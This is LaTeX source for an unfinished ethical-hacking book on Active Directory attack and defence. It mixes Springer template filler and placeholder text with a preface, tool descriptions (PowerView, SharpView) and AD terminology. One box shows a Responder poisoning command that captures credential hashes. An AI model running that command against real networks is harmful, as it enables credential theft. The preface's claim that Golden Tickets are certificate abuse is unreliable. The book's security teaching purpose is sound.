\documentclass[graybox,envcountchap,sectrefs]{svmono}
\usepackage{lmodern}
\usepackage{cite}
\usepackage{fix-cm}
\usepackage[table]{xcolor}
\usepackage{caption}

 


% =========================
% Failsafe build switch
% =========================
\newif\ifbuildchapters
\buildchapterstrue        % <-- set to \buildchapterstrue to include chapters
\usepackage{ragged2e}  % Justifying content
\let\raggedright\justifying


% ---- Encoding & fonts
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{type1cm}
\usepackage{newtxtext}
\usepackage{newtxmath}
\usepackage{microtype}
\usepackage{hyphenat}
\usepackage{amsmath}  
%\usepackage{svmono} % For svgraybox environment
\usepackage{inputenc}
\usepackage{paralist}
\usepackage{inconsolata}

 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% ---- Beautiful table
\usepackage[margin=1in]{geometry}
%\setlength{\textwidth}{6.25in}
\usepackage{booktabs}
\usepackage{array}
\usepackage[table]{xcolor}
\usepackage{longtable}

\definecolor{headerblue}{RGB}{0,102,204}
\definecolor{rowgray}{gray}{0.95}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% ---- Source Code Snippet Box
\usepackage[most]{tcolorbox}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{caption}

% Define color scheme
\definecolor{terminalbg}{HTML}{1E1E1E}
\definecolor{termtext}{HTML}{FFFFFF}
\definecolor{termcomment}{rgb}{0.4, 1.0, 0.4}
\definecolor{termkeyword}{rgb}{0.6, 0.6, 1.0}
\definecolor{termboxlabel}{gray}{0.9}

% Define listing style
\lstdefinestyle{bashstyle}{
    backgroundcolor=\color{terminalbg},
    basicstyle=\ttfamily\small\color{termtext},
    keywordstyle=\color{termkeyword},
    commentstyle=\color{termcomment},
    stringstyle=\color{orange},
    breaklines=true,
    columns=fullflexible,
    keepspaces=true,
    showstringspaces=false,
    frame=none
}

% Define code box environment with a label (like 'bash')
\newtcblisting{codeblock}[2][]{
    listing only,
    title=#2,
    listing options={style=bashstyle},
    colback=terminalbg,
    coltitle=black,
    fonttitle=\small\ttfamily\bfseries,
    colframe=black,
    boxsep=0pt,
    top=1mm, bottom=1mm, left=1mm, right=1mm,
    enhanced,
    attach boxed title to top left={yshift=-1mm, xshift=2mm},
    boxed title style={colback=termboxlabel, size=small, sharp corners=northwest},
    #1
}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% !! Awesomebox
\usepackage{awesomebox}
\usepackage{tcolorbox}
\usepackage{fontawesome5}
\usepackage{tcolorbox}
\usepackage{fontawesome5}

% Environment with a unique name
\newcommand{\gearbox}[1]{%
  \awesomebox[gray!60]{\faIcon{cog}}{Tool}{#1}%
}
\usepackage[nopar]{lipsum}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Enter in mainmatter:

%\lipsum[1]

%\notebox{\lipsum[2]}

%\tipbox{\lipsum[3]}

%\warningbox{\lipsum[4]}

%\cautionbox{\lipsum[5]}

%\importantbox{\lipsum[6]}

%\newcommand{\gearbox}[1]{%
  %\awesomebox[teal]{\faCog}{Tool}{#1}%
%}

%\lipsum[8]

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%Source Code Snippet Box
\usepackage[utf8]{inputenc} 
\usepackage{geometry} 
\usepackage{tikz} 
\usepackage{lipsum}

\newcommand{\mybox}[4]{
    \begin{figure}[h]
        \centering
    \begin{tikzpicture}
        \node[anchor=text,text width=\columnwidth-1.2cm, draw, rounded corners, line width=1pt, fill=#3, inner sep=5mm] (big) {#4};
        \node[draw, rounded corners, line width=.5pt, fill=#2, anchor=west, xshift=5mm] (small) at (big.north west) {#1};
    \end{tikzpicture}
    \end{figure}
}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% ----- Enter into mainmatter:

%\begin{document}
%\lipsum*[1]

%\mybox{bash}{gray!20}{gray!40}{\texttt{python Responder.py -I eth0 -rdvw}}

%\mybox{Summary 1}{green!40}{green!10}{This is a very different box... Well, ok, just the colour.}

%\lipsum*[2]
%\end{document}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%5
% ---- Core packages
\usepackage{makeidx}
\usepackage{wrapfig}
\usepackage{graphicx}
\graphicspath{{./}{images/}{mainmatter/images/}}
\usepackage{multicol}
\usepackage[bottom]{footmisc}
\usepackage{xcolor}
% ---- Code snippets (PowerShell example)
\usepackage{listings}
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}


% ---- Index & graphics
\makeindex
\graphicspath{{./}{images/}}

% ---- Hyperref (must be last)
\usepackage[hidelinks]{hyperref}
% ---- Load nameref before hyperref to prevent warning
\usepackage{nameref}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Force wider layout to fix narrow centered appearance
\usepackage{etoolbox}
\makeatletter
\patchcmd{\@outputpage}{\null\vfil}{}{}{}
\makeatother

\captionsetup{compatibility=false}


 

% Fix text width manually
\setlength{\textwidth}{6.25in}
\setlength{\oddsidemargin}{0.125in}  % or tweak this as needed
\setlength{\evensidemargin}{0.125in}


\usepackage{hyperref}
\begin{document}
\justifying


\author{Author name(s)}
\title{Book title}
\subtitle{-- Monograph --}
\maketitle

\frontmatter
%%%%%%%%%%%%%%%%%%%%%%preface.tex%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% sample preface
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer %%%%%%%%%%%%%%%%%%%%%%%%%%

\preface

%% Please write your preface here
\emph{Master of Your Domain: Hacking and Defending Active Directory (AD) for Ethical Hackers.tex} is a practical exploration of how today's modern Active Directory (AD) environments are breached, abused, and defended in the real-world. This book was written for aspiring and seasoned ethical hackers, red and blue teamers, penetration testers, defenders, and anyone who wants to understand the true dynamics of modern Windows network compromise - beyond theory, beyond checklists.
Active Directory remains one of the most targeted and misunderstood components in enterprise cyber security. It's vast, complex, and oftentimes misconfigured. For attackers, it's a playground - a goldmine. For defenders, it's a battlefield in the truest sense. This book aims to arm you with both perspectives of both offensive and defensive cyber security. You'll find detailed coverage of post-exploitation tactics, including certificate abuse (e.g., Golden Tickets), persistence techniques, lateral movement, privilege escalation, and the tools used and methods in which to attack and defend the Kerberos authentication protocol. But more than just technical content, this book emphasizes mindset: how an attacker thinks when they're inside, undetected, and methodically deciding their next move. Understanding that psychology is just as critical as knowing the tools.
Each chapter is based on real-world engagements and lessons learned the hard way. No two networks are the same - but patterns emerge, and opportunities repeat themselves. The goal of this book is to help you recognize those opportunities. Whether you are breaking in, or locking things down.
To those who supported the long hours, reviewed the raw material, and challenged my thinking - thank you. This book wouldn't exist without your input, insight, and encouragement.


A preface\index{preface} is a book's preliminary statement, usually written by the \textit{author or editor} of a work, which states its origin, scope, purpose, plan, and intended audience, and which sometimes includes afterthoughts and acknowledgments of assistance. 

When written by a person other than the author, it is called a foreword. The preface or foreword is distinct from the introduction, which deals with the subject of the work.

Customarily \textit{acknowledgments} are included as last part of the preface.
 

\vspace{\baselineskip}
\begin{flushright}\noindent
Place(s),\hfill {\it Firstname  Surname}\\
month year\hfill {\it Firstname  Surname}\\
\end{flushright}



%%%%%%%%%%%%%%%%%%%%%%acknow.tex%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% sample acknowledgement chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer %%%%%%%%%%%%%%%%%%%%%%%%%%
\extrachap{Acknowledgements}

Use the template \emph{acknow.tex} together with the document class SVMono (monograph-type books) or SVMult (edited books) if you prefer to set your acknowledgement section as a separate chapter instead of including it as last part of your preface.

\lipsum*[1]

\mybox{bash}{gray!20}{gray!40}{\texttt{python Responder.py -I eth0 -rdvw}}

%\mybox{Summary 1}{green!40}{green!10}{This is a very different box... Well, ok, just the colour.}

\lipsum*[2]


\tipbox{
\subsection{PowerView and SharpView}
PowerView and its .NET counterpart, SharpView, are reconnaissance tools designed to provide situational awareness in Active Directory environments. Functionally, they act as powerful replacements for many traditional Windows \texttt{net*} commands, but with far greater flexibility and depth. \par

Both tools allow you to enumerate users, groups, computers, shares, and access rights throughout the domain. In many ways, the data you collect with either tool overlaps with what BloodHound provides; however, unlike BloodHound-which automatically builds visual relationship graphs-you will need to manually interpret and correlate the results to uncover meaningful attack pathways.\par
These tools are especially useful when testing new credentials, since they allow you to quickly determine what additional access is unlocked by a new account. They also enable targeted queries against specific users or systems, ultimately helping you to identify "quick wins" such as accounts that are vulnerable to Kerberoasting or AS-REP Roasting attacks}


\tipbox {PowerView
and its .NET counterpart, \textbf{SharpView}, are reconnaissance tools designed to provide situational awareness in Active Directory environments. Functionally, they act as powerful replacements for many traditional Windows \texttt{*net} commands, but with far greater flexibility and depth. Both tools allow you to enumerate users, groups, computers, shares, and access rights throughout the domain, and in many ways, the data you collect with either tool will overlap with what BloodHound provides you; however, unlike BloodHound-which automatically builds visual relationship graphs-you must manually interpret and correlate the results to uncover meaningful attack paths. These tools are especially useful when testing new credentials, since they allow you to quickly determine what additional access is unlocked by a new account. They also enable targeted queries against specific users or systems, helping you to identify "quick wins" such as accounts vulnerable to Kerberoasting or AS-REPRoasting attacks.}


%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.

%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\section{Conventions Used in This Book}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

To make this book easier to read and to help you quickly identify important elements, I use the following typographic conventions throughout the chapters:
\begin{itemize}
    \item \textbf{Bold}-Used for emphasis and for names of important concepts, roles, or terms when they first appear. Also used for button names, menu items, and other user interface elements.
    \textit{Example:} Click \textbf{OK} to confirm the changes.
    \item \textit{Italic}-Use for introducing new terms, highlighting variables in examples, and emphasizing key ideas in running texts.
    \textit{Example:} The \textit{attack surface} is the total set of points an attacker can attempt to exploit.
    \item \colorbox{gray!20}{\texttt{Monospace-Used}} for computer commands, executable names, file names, code keywords, and any text you see in that manner means that you must type exactly as shown.
    \textit{Example:} Run \colorbox{gray!20}{\texttt{ping contoso.com}} to check network connectivity.
    \item Monospace Bold-Used to highlight computer commands or code, executable names, file names, code keywords, and any text the reader sees in this manner means that you should type exactly as shown, particularly in step-by-step procedures.
    \textit{Example:} Type \colorbox{gray!20}{\texttt{net user /domain}} to list domain accounts.
    \sloppy
    \item CAPITAL LETTERS-Used for Active Directory service records, protocol acronyms, and other abbreviations.
    \textit{Example:} The \_LDAP SRV record is used for locating domain controllers.
    \item \textbf{Notes}-Provide additional context, background details, or clarifications to help you better understand a concept or procedure. Notes often explain why something is important from either an offensive or defensive perspective.
    \item \textbf{Tips}-Offer practical advice, shortcuts, and techniques to make tasks faster, easier, or more effective. Tips may include recommended configurations, useful command variations, or field-tested methods that work well in Active Directory environments.
    \item \textbf{Warnings}-Alert you to potential risks, pitfalls, or security hazards. Warnings emphasize actions that could result in system compromise, data loss, or reduced security posture if ignored. In the offensive context, they may describe the impact of an exploit; in the defensive context, they explain how to avoid it.
\end{itemize}


Please use the 'starred' version of the new \texttt{abstract} command for typesetting the text of the online abstracts (cf. source file of this chapter template \texttt{abstract}) and include them with the source files of your manuscript. Use the plain \texttt{abstract} command if the abstract is also to appear in the printed version of the book.
\sloppy
\abstract{Each chapter should be preceded by an abstract (no more than 200 words) that summarizes the content. The abstract will appear \textit{online} at \url{www.SpringerLink.com} and be available with unrestricted access. This allows unregistered users to read the abstract as a teaser for the complete chapter.}

\section{Section Heading}
\label{sec:1}
Use the template \emph{chapter.tex} together with the document class SVMono (monograph-type books) or SVMult (edited books) to style the various elements of your chapter content conformable to the Springer Nature layout.

\section{Section Heading}
\label{sec:2}
% Always give a unique label
% and use \ref{<label>} for cross-references
% and \cite{<label>} for bibliographic references
% use \sectionmark{}
% to alter or adjust the section heading in the running head
Instead of simply listing headings of different levels we recommend to let 
\include{frontmatter/codeplayground}
%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\chapter{Scope and Structure of This Book}
\label{intro-whatthisbookisabout} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\chapter{What This Book Covers}

Active Directory Security: Attacks and Defenses
This book is a practical guide to attacking and defending Active Directory (AD) environments, using real-world techniques drawn from nearly 20 years of red team operations and adversarial emulation. The focus is on abusing built-in features and overlooked configurations - no exploits, no frameworks - just reliance on human-error that provides tried and true methods that work in the field.

Often, organizations that use Active Directory (AD) think that they are secure because of a strong vulnerability management program and patching new threats and vulnerabilities the minute they are released. Their vulnerability scans may come up clean week after week, but are they truly secure? If they are neglecting AD security, then most likely not.

I have performed penetration tests against many network infrastructures where I was unable to find any directly exploitable services or applications but was able to gain a toehold in Active Directory, take over the internal and DMZ domains, and issued 10+ high-risk findings related to AD in their final deliverable-the pentest report.

As an ethical hacker, ignoring AD typically results in leaving a massive attack surface on the table. It's practically akin to leaving the front door to your house open with a huge sign that reads "Please, Come In. Everyone!" At the same time, organizations that are neglecting to implement strong AD security infrastructure also open themselves up to a plethora of attacks.

\section{Learning Active Directory For Beginners}
Active Directory is a vast topic and can be overwhelming to grasp when first approaching it. My number one tip for anyone starting with AD is to first gain a thorough understanding of the fundamental key components that make up an Active Directory environment and how they interplay together.

Until you understand these key components and can recall from memory the most important ones to enumerate during a penetration test (users, groups, computers, Organizational Units (OUs), Access Control Lists (ACLs), Group Policy Objects (GPOs), local administrator access, to name a few), it will be challenging to follow along with forthcoming AD-related topics.

Below is a list of some key components I recommend learning about in-depth before diving deeper into AD and the key items to focus on whilst performing enumeration. If you are a beginner just starting out, I recommend taking a look at the "Introduction to Active Directory" module at HTB Academy. It will take you from zero knowledge of Active Directory to a decent, well-rounded understanding of its key fundamental components.

Once you have this core knowledge under your belt, you can move onto more advanced topics such as attacking and enumeration, exploitation and post-exploitation weaponization and delivery of attack payload(s0, and more. Learning as much as you can about AD alongside with this book will teach you the necessary fundamentals needed to navigate Windows domain-joined information systems from the command line using such tools like PowerShell, BloodHound, and PowerView.

\subsection{Key AD Component Terminology}
\textbf{Object:}
An object can be defined as ANY resource that is present within an Active Directory environment, such as OUs, printers, users, domain controllers, and so on.

\textbf{Attribute:}
Every object in Active Directory has an associated set of attributes that are used to define its characteristics. A computer object contains attributes such as the hostname and DNS name servers.

All attributes in AD have an associated LDAP name that can be used when performing LDAP queries, such as \texttt{displayName} for Full Name and given for First Name.

\textbf{Schema:}
The Active Directory schema is essentially the blueprint of any enterprise AD environment. It defines what types of objects can exist in the AD database (NTDS.dit) and their associated attributes. It lists definitions that correspond to AD objects and holds information about each corresponding object. For example, users in AD belong to the class "user," and computer objects to "computers."

Each object has its own information (some required to be set and other an optional choice) that are stored in Attributes. When an object is created from a class, this is called \textit{instantiation,} and an object created from a specific class is called an \textit{instance} of that class. For example, if we take a computer named RDS01, this computer object is an instance of the "computer" class in AD.

\textbf{Domain:}
A domain is a logical grouping of objects such as computers, users, OUs, and groups. We can think of each domain as a different city within a state or country. Domains can operate entirely independently of one another to be connected via trust relationships.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{domain.png}
    \caption{Domain Interconnections}
    \label{fig:placeholder}
\end{figure}


\textbf{Forest:}
A forest is a collection of Active Directory domains. It is the topmost container and contains all AD objects, including, but not limited to domains, users, groups, computers, and Group Policy Objects (GPOs). A forest can contain one or multiple domains and be thought of as a state in the U.S. or a country within the EU. Each forest operates independently but may have various trust relationships with other forests in the domain.

\textbf{Tree:}
A tree is a collection of Active Directory domains that begin at a single root domain. A forest is essentially a collection of AD trees and each domain within a tree shares a boundary with the other surrounding domains. A parent-child trust relationship is formed whenn a domain has been added under another domain in a tree. Two trees in the same forest cannot share a namespace.

Let us say we have two trees in an AD forest: inlanefreight.local and ilfreight.local. A child domain of the first would be corp.inlanefreight.local while a child domain of the second could be corp.ilfreight.local. All domains in a tree share a standard Global Catalog Service (GCS) which contains all information about objects that belong to the tree.

\begin{figure}
    \centering
